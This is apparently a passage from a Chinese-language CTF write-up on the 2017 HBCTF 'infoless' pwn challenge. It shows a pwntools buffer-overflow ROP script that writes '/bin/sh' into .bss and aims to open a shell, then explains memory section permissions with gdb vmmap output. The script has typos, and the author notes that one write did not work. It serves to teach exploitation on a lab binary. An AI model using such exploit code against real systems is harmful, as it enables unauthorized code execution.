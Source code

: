 ```
    p = remote()

if local and debug:
    gdb.attach(p, open('debug'))

offset = 22
elf = ELF('./infoless')
read_plt = elf.symbols['read']
vuln_addr = 0x80484CB
bss_addr = 0x8049820
fflush_plt = elf.symbols['fflush']

def pwn():

    addr = bss_addr
    payload1 = offset * 'a' + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(100)
    p.sendline(payload1)
    payload2 = '/bin/sh\x00'.ljust(20, 'a')
    p.sendline(payload2)

    addr = 0x8048276
    gdb,attach(p)
    payload1 = offset * 'b' + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(addr) + p32(100)
    p.sendline(payload1)
    payload2 = 'system\x00'
    p.sendline(payload2)

    payload1 = 14 * 'c' + p32(fflush_plt) + p32(0) + p32(bss_addr)
    p.sendline(payload1)

if __name__ == '__main__':
    pwn()
    p.interactive()
```
嗯，测试结果不可写= =，但是当我们尝试去写的时候似乎不会报错？（应该是有一个address fault的呀- -）。

### 节的权限

通过gdb的vmmap可以得到权限。当ELF文件被加载到内存中后，系统会将多个具有相同权限Section(节)合并成一个Segment(段)，通常为代码段(可读可执行)，可读可写的数据段，和只读数据段。

```
wndbg> vmmap 
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /root/ctf-problem/2017hbctf/pwn/infoless/infoless
 0x8049000  0x804a000 rw-p     1000 0      /root/ctf-problem/2017hbctf/pwn/infoless/infoless
0xf7dfa000 0xf7dfc000 rw-p     2000 0      
0xf7dfc000 0xf7fad000 r-xp   1b1000 0      /lib32/libc-2.24.so
0xf7fad000 0xf7faf000 r--p     2000 1b0000 /lib32/libc-2.24.so
0xf7faf000 0xf7fb0000 rw-p     1000 1b2000 /lib32/libc-2.24.so
0xf7fb0000 0xf7fb3000 rw-p     3000 0      
0xf7fd2000 0xf7fd4000 rw-p     2000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffb000 r-xp    22000 0      /lib32/ld-2.24.so
0xf7ffc000 0xf7ffd000 r--p     1000 22000  /lib32/ld-2.24.so
0xf7ffd000 0xf7ffe000 rw-p     1000 23000  /lib32/ld-2.24.so
0xfffdd000 0xffffe000 rw-p    21000 0      [stack]
```
